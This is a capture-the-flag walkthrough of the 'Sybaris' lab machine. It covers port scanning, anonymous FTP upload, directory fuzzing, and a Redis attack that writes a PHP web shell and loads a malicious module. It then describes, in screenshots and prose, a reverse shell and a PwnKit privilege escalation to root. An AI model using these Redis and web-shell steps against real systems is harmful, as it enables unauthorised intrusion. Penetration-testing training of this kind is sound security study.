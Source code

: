 First enumeration with nmap 

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Jan  6 16:30:10 2023 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.79.93
Increasing send delay for 192.168.79.93 from 0 to 5 due to 11 out of 28 dropped probes since last increase.
Increasing send delay for 192.168.79.93 from 5 to 10 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 192.168.79.93
Host is up (0.18s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
6379/tcp  open   redis

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jan  6 16:31:06 2023 -- 1 IP address (1 host up) scanned in 56.23 seconds
```

Now we know the ports that are open, let's run defaults nmap scripts to know what services are running on those ports.

`nmap -sC -sV -oN normal.tcp -p 21,22,80,6379 -Pn <IP>`

```
# Nmap 7.93 scan initiated Fri Jan  6 16:41:25 2023 as: nmap -sC -sV -oN normal.tcp -p 21,22,80,6379 -Pn 192.168.108.93
Nmap scan report for 192.168.108.93
Host is up (0.17s latency).       
                                         
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
| ftp-syst:                                                                        
|   STAT:                                                                          
| FTP server status:                                                               
|      Connected to 192.168.49.108
|      Logged in as ftp                                                            
|      TYPE: ASCII
|      No session bandwidth limit                                                  
|      Session timeout in seconds is 300                                           
|      Control connection is plain text                                            
|      Data connections will be plain text                     
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable    
|_End of status                                                                    
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:                                                                     
|   2048 2194ded36964a84da8f0b50aeabd02ad (RSA)       
|   256 674245198bf5f9a5a4cffb8748a266d0 (ECDSA)
|_  256 f3e229a3411e761eb1b746dc0bb99177 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-robots.txt: 11 disallowed entries  
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/             
|_http-title: Sybaris - Just another HTMLy blog
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22                                                                                                                
|_http-generator: HTMLy v2.7.5                                                                                                                                        
| http-cookie-flags: 
|   /:                                                                             
|     PHPSESSID:
|_      httponly flag not set
6379/tcp open  redis   Redis key-value store 5.0.9
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan  6 16:41:40 2023 -- 1 IP address (1 host up) scanned in 14.99 seconds
```

Now we know what ports are open, let's start first by enumerating port 21 (FTP). Anonymous login is allowed

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Sybaris]
└─$ ftp 192.168.108.93                                                                                                            
Connected to 192.168.108.93.
220 (vsFTPd 3.0.2)
Name (192.168.108.93:n16hth4wk): anonymous 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||10093|).
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              17 Sep 04  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
drwxrwxrwx    2 0        0               6 Apr 01  2020 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||10095|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0               6 Apr 01  2020 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
226 Directory send OK.
ftp> put normal.tcp 
local: normal.tcp remote: normal.tcp
229 Entering Extended Passive Mode (|||10093|).
150 Ok to send data.
100% |*************************************************************************************************************************|  1696       26.51 MiB/s    00:00 ETA
226 Transfer complete.
1696 bytes sent in 00:00 (5.16 KiB/s)
ftp> ls -al
229 Entering Extended Passive Mode (|||10094|).
150 Here comes the directory listing.
drwxrwxrwx    2 0        0              24 Jan 06 15:45 .
drwxr-xr-x    3 0        0              17 Sep 04  2020 ..
-rw-rw-rw-    1 14       50           1696 Jan 06 15:45 normal.tcp
226 Directory send OK.
ftp> 
```

nice we have file upload permission in ftp, let's move to the next port 80 (http).

![image](https://user-images.githubusercontent.com/87468669/211047218-c4ec3e85-b49e-421f-96f6-62894b058cd7.png)

As we can se the web service is running htmly cms, i checked online for exploits could not find any. Let's burst hidden directories 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Sybaris]
└─$ ffuf -u "http://192.168.108.93/FUZZ" -w /usr/share/wordlists/dirb/common.txt -fc 403,500 -fs 0,5 -e .txt,.php,.xml,.bak
                                                                                   
        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                         
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/        
                                         
       v1.5.0 Kali Exclusive <3
________________________________________________
                                                                                   
 :: Method           : GET                                                         
 :: URL              : http://192.168.108.93/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt .php .xml .bak 
 :: Follow redirects : false                                                                                                                                          
 :: Calibration      : false                                                                                                                                          
 :: Timeout          : 10                                                                                                                                             
 :: Threads          : 40                                                                                                                                             
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500                                                                                           
 :: Filter           : Response status: 403,500                                                                                                                       
 :: Filter           : Response size: 0,5                                                                                                                             
________________________________________________                                                                                                                      
                                                                                                                                                                      
                        [Status: 200, Size: 7884, Words: 2320, Lines: 142, Duration: 208ms]
cache                   [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 157ms]   
content                 [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 198ms]   
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1, Duration: 149ms]
humans.txt              [Status: 200, Size: 1157, Words: 49, Lines: 59, Duration: 167ms]
index                   [Status: 200, Size: 7870, Words: 2318, Lines: 142, Duration: 171ms]
lang                    [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 171ms]       
LICENSE.txt             [Status: 200, Size: 18092, Words: 3133, Lines: 340, Duration: 185ms]
login                   [Status: 200, Size: 3046, Words: 616, Lines: 69, Duration: 195ms]
robots.txt              [Status: 200, Size: 1154, Words: 112, Lines: 48, Duration: 178ms]
sitemap.xml             [Status: 200, Size: 505, Words: 4, Lines: 1, Duration: 163ms]
system                  [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 183ms]
themes                  [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 157ms]
:: Progress: [23070/23070] :: Job [1/1] :: 224 req/sec :: Duration: [0:02:05] :: Errors: 0 ::
```

checked all the directories, i got nothing usefull. Let's move on to the next port 6379 (redis).

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Sybaris]
└─$ redis-cli -h 192.168.108.93
192.168.108.93:6379> config set dir /var/www/html
OK
192.168.108.93:6379> config set dbfilename shell.php
OK
192.168.108.93:6379> set test "<?php system($_GET[cmd]); ?>"
OK
192.168.108.93:6379> save
(error) ERR
192.168.108.93:6379> 
```

Loggd in redcli and try to inject a shell but it did not work. since we have file upload access on ftp, why don't we upload a rediscli module.so file.

![image](https://user-images.githubusercontent.com/87468669/211049138-53d74d37-6cea-4c4e-80ff-37b1650cd1c9.png)

Great we got to import the module from the ftp directory. you can get the module.so file in the `/usr/share/metasploit-framework/data/exploits/redis/module.so` or check github.
Now we got RCE, let's get reverse shell.

![image](https://user-images.githubusercontent.com/87468669/211051251-ccb83514-bfe3-4568-a41d-7fc7d011d940.png)

Boom we got reverse shell😎, let's escalate privs esc. 

![image](https://user-images.githubusercontent.com/87468669/211062904-aba054ac-2ede-4fff-9454-642b45281383.png)

running linpeas, we can see that the target is vuln to kernel exploit cve-2021-4034.

![image](https://user-images.githubusercontent.com/87468669/211063113-35b7ae83-fddc-4e34-bbcd-20b2e5432150.png)

Sent the exploit to the target, compiled and ran the exploit and Bull's eye we got root shell.🤠
